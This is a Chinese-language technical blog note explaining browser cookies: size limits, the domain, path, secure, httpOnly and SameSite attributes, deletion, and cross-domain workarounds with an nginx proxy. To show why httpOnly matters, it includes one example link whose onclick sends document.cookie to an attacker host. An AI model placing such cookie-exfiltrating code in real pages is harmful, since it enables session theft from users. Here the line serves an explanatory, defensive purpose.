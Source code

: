```yaml
---
title: 浏览器中的cookie
description: 浏览器中的cookie
categories:
 - technology
tags:
---
```



### 1、cookie是什么

科学百科中给的定义是：cookie是在http协议下，服务器或脚本可以维护客户工作站上信息的一种方式。cookie是由Web服务器保存在用户浏览器上的小文本文件，它可以包含有关用户的信息。无论何时用户链接到服务器，Web站点都可以访问cookie信息。

简单来说就是存储在浏览器中的纯文本，浏览器的安装目录下会专门有个cookie文件夹存放各个域下的cookie。

它是服务器发送到用户浏览器并保存在本地的一小块数据，当浏览器下次向同一服务器再发起请求时被携带并发送到服务器上，体现在自动添加到request header中的cookie字段里面。这一过程是浏览器自动帮我们做的，并且是每次请求浏览器都会自动做的事情。基于这个特点，cookie中存放的数据就有一定的要求，比如必须是每个请求都会发送给服务端的数据（如身份验证信息），否则的话浏览器自动设置添加这些cookie无疑会增加网络开销，并不合适。

![图片]({{site.url}}/assets/images/note/cookie5.png)

cookie标准是有限制的：

- 每个域名下的cookie的大小最大为4KB，超出会被截掉并且不会被发送至服务器；

- 每个域名下的cookie数量最多为20个（但现在很多浏览器还是支持大于20个的）。

注：原始规范中限定每个域名下不超过 20 个 cookie，早期的浏览器都遵循该规范，并且在 IE7 中有更近一步的提升。在微软的一次更新中，他们在 IE7 中增加 cookie 的限制数量到 50 个，与此同时 Opera 、Safari、Firefox 和 Chrome 对与每个域名下的 cookie 个数没有限制（opera本来是由30个数量限制的，后转用webkit内核，无限制了）。

这些限制主要在阻止滥用cookie，数量过多的话会严重影响请求的性能。

#### 1）存储cookie

cookie可以由服务端通过Set-Cookie方法设置，也可以通过js的 document.cookie = "name=value"设置。

- 浏览器端 通过document.cookie设置cookie，每次只能设置一个值，设置多个后面的无效;

- document.cookie设置值可以不用遵守name=value的形式，直接设置一个字符串也是可以存储成功的；

- 服务端，通过response.setHeader中的set-cookie设置， 同样不能将多个cookie放在一个set-cookie字段中。

![图片]({{site.url}}/assets/images/note/cookie4.jpg)

![图片]({{site.url}}/assets/images/note/cookie3.png)

服务端同样可以设置可选项。

#### 2）cookie编码

##### a.值不能包含空格，括号，括号，等号，逗号，双引号，斜杠，问号，符号，冒号和分号。

##### b.使用 unicode 字符时需要对 unicode 字符进行编码，否则会乱码（中文属于 unicode 字符，在内存中占4个字符，而英文属于ASCII字符，内存中只占2个字节）。

##### c.cookie 不仅可以使用 ASCII 字符与 unicode 字符，还可以使用二进制数据。例如在 cookie 中使用数字证书，提供安全度。使用二进制数据时也需要进行编码。

#### 3）js获取cookie的API

通过document.cookie方法可以获取cookie，但是注意，这种方式只能获取到非HttpOnly类型的cookie。

![图片]({{site.url}}/assets/images/note/cookie1.jpg)


#### 4）cookie的可选项

cookie共有domain、path、expires（max-age）、httpOnly、secure这几种。每设置一个cookie，都会包含这些信息，如果没有设置这些属性，则会使用这些属性的默认值，如：

```javascript
document.cookie = "key=value; expires=Thu, 25 Feb 2016 04:18:00 GMT; domain=.dasouche.net; path=/; secure; HttpOnly";
```

指定的可选项只能在浏览器中查看参考，并不会被带到服务端。

##### a.expires/max-age

这个可选项代表cookie什么时候过期，过期了这个cookie也就不存在了。它的格式必须是GMT的时间（new Date().toGMTString()或者 new Date().toUTCString()）。

- 如果没有设置该可选项，那么这个cookie在浏览器关闭后就冇（mao 三声，意思是没有）啦。

<!-- ![图片]({{site.url}}/assets/images/note/cookie2.jpeg) -->

（ps:别问为什么一个东北人要给你们科普粤语，问就是剧情需要）

- 这个可选项是http/1.0协议的概念，http/1.1用max-age代替，两者作用一样，只是max-age的格式是以秒为单位的数字，并且如果设置为-1，则代表永远失效；如果设置为0，代表删除cookie。

##### b.domain和path

domain指定了 cookie 将要被发送至哪个或哪些域中，path代表要发送的具体路径，两者加起来就组成了个完整的URL，domain和path一起来限制cookie能被哪些URL访问，也就证明了不同域名的cookie是不能共享的（二级域名除外）。核实过domain后才会对path进行比较。

也就是说满足以上两个条件（domain可以是一级也可以是二级域名）的url，都会在请求头中设置浏览器中的cookie。

在没有设置这两个可选项的情况下，则会使用默认值。domain的默认值为设置该cookie的网页所在的域名，path默认值为设置该cookie的网页所在的目录。

但是要注意两点：

- 发生跨域xhr请求时，即使请求URL的域名和路径都满足cookie的domain和path，默认情况下cookie也不会自动被添加到请求头部中。

- domain是可以设置为页面本身的域名（本域），或页面本身域名的父域，但不能是公共后缀(com、net、cn、cc等等)。举例说明下：如果页面域名为 www.baidu.com, domain可以设置为“www.baidu.com”，也可以设置为“baidu.com”，但不能设置为“.com”或“com”。

- cookie不区分端口，假设在127.0.0.1:8000设置了某些cookie，然后修改端口，重新发送请求，还是可以拷打request header中带上了
之前不同端口时设置的cookie字段。

主要原因是：浏览器在判断是否是第三方（跨域）请求时，用的判断逻辑不是同源策略，而是用了 [Public Suffix List](https://publicsuffix.org/list/public_suffix_list.dat) 来判断。举个例子：foo.a.com 和 bar.a.com 是不同源的，但很有可能是同一个站点的，a.com 和 a.com:8000 是不同源的，但它俩绝对是属于同一个站点的。

##### c.secure

这个可选项代表设置的cookie只在安全环境中发送，也就是说，在https或其他安全协议中，包含secure选项的cookie才能被发送到服务器，防止信息在传递的过程中造成信息泄漏。

默认情况下，服务端设置cookie时不会带secure选项。所以默认情况下，不管是HTTPS协议还是HTTP协议的请求，cookie 都会被发送至服务端。被发送到服务端后，在 HTTPS 链接上传输的 cookie 都会在服务端被添加上 secure 选项（一般有框架自动做这个事情）。

注：在http协议的网页中是无法设置secure类型cookie的；且在服务端也是只有https的情况下才能写入secure的cookie。

##### d.httpOnly

这个可选项用来设置cookie是否能通过js去访问。在客户端是不能通过js代码去设置一个httpOnly类型的cookie的，这种类型的cookie只能通过服务端来设置。

这样做是为了保障安全。如果任何cookie都能被客户端通过document.cookie获取的话，假设有一段恶意的script脚本插到了网页中，这段script脚本通过document.cookie读取了用户身份验证相关的cookie，并将这些cookie发送到了攻击者的服务器。攻击者轻而易举就拿到了用户身份验证信息，一点安全性都没有。-->

```javascript
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

##### e.SameSite
        
cookie一开始被设计成了允许第三方网站共享的，但是这样很容易引起CSRF攻击。为了防止CSRF攻击，已经有的办法是CSRF token校验和referer请求头校验。但为了从根源上解决这个问题，为 Set-Cookie 响应头新增 SameSite 属性，它有以下三个可选值：

- Strict：表示严格模式，表明这个cookie在任何情况下都不可能作为第三方cookie。

```javascript
    response.setHeader("Set-Cookie", "a=1; SameSite=Strict;");
    response.setHeader("Set-Cookie", "b=2;");
```

在A域名下发起一个域名为B的任意请求，这时 cookie a 不会被发送出去，也就是不会被包含到请求头中，但 cookie b 会。

- Lax：宽松模式，比strict放宽了点限制。

```javascript
    response.setHeader("Set-Cookie", "a=1; SameSite=Strict;");
    response.setHeader("Set-Cookie", "b=2; SameSite=Lax;");
    response.setHeader("Set-Cookie", "c=3;");
```

在A域名下点击进入一个域名为B的链接，这时 cookie a 不会被包含到请求头中，但 cookie b、 cookie c 会；但假如在A域名下发起一个域名为B的请求（{% raw %}<script>、<link>、<img>、<iframe>{% endraw %} 等标签发起的请求，还有通过各种发送 HTTP 请求的 DOM API（XHR，fetch，sendBeacon）发起的请求），不会带上 cookie b。 






### 2、修改和删除cookie

- 修改一个cookie只需要重新赋值。但要注意在设置新cookie时，name/path/domain这几个选项一定要与旧的cookie保持一样。否则不会修改旧值，而是添加了一个新的 cookie。

- 删除一个cookie可以将这个新cookie的expires选项设置为一个过去的时间点。但同样要注意，name/path/domain/这几个选项一定要与旧的cookie 保持一样。

自动删除cookie的条件：

- 未设置expires的cookie的会话被关闭。

- 设置了expires的cookie达到失效日期被删除。

- 浏览器cookie达到上限，为了给新建cookie腾出空间，会删除原有的cookie。（但实际上cookie在现代浏览器中没有个数限制了，所以此条可以忽略）


### 3、如何解决cookie跨域问题

#### 1）host绑定

#### 2) 用nginx的反向代理解决

比如localhost:8080不具备的cookie，可以通过为其设置proxy_pass和proxy_set_header代理到线上已有的域名上，

```javascript
server {
    listen      80;
    server_name test.dasouche-inc.net;
    location ~* ^.+\.(xls|woff2|woff|ttf|log|jpg|jpeg|gif|png|ico|html|cfm|cfc|afp|asp|lasso|pl|py|txt|fla|swf|zip|js|css|less|hot-update.json)$ {
        expires -1;
        proxy_pass http://127.0.0.1:8082;
    }
    location / {
        proxy_pass http://172.17.40.162;
        proxy_set_header Host "dforce-platform-web.dasouche-inc.net";
    }
}
```

proxy_set_header Cookie $http_cookie;

以上两种方法原理相同，都是通过代理的方式，让原本不具备某些cookie的页面能共享到有效cookie，从而能正确发起请求。

问题：

### Q1：xhr跨域请求 set-cookie可以被删除吗？

A1：a.com向b.com发送请求，分以下几种情况，第一种，b.com的服务端设置的cookie 域名是a.com，此时，在浏览器中可以直接访问a.com的页面删除此cookie；若b.com的服务端设置的cookie 域名是b.com，此时，在a.com中看不到此cookie，无法从浏览器端删除，只能再次发送某个请求给b.com进行删除。

### Q2：某个cookie的domain是sso.dasouche-inc.net 那么xx.sso.dasouche-inc.net 可以访问这个域名的cookie 吗

A2：不可以的，除非这个cookie的domain是.sso.dasouche-inc.net。

### Q3：有没有什么办法能够让cookie只被.dasouche-inc.net访问 而不被精准的域名下的路径访问

A3：暂时没有想到通过修改request headers来实现此场景。


参考文档：

[聊一聊cookie](https://segmentfault.com/a/1190000004556040)

[解决cookie跨域访问](https://www.cnblogs.com/hujunzheng/p/5744755.html)

[SameSite Cookie，防止 CSRF 攻击](https://www.cnblogs.com/ziyunfei/p/5637945.html)
